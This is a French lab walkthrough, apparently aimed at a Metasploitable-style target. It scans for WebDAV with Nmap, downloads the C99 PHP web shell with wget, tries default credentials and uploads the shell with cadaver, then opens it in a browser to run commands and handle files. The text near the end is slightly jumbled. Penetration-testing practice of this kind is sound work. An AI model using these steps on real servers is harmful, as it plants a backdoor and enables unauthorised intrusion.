 Vérifier si WebDAV est activé:

Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php

![Cela affichera l’interface de C99 Shell, qui te permet](Images\davweb.png)

Si WebDAV est actif, tu verras :

D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers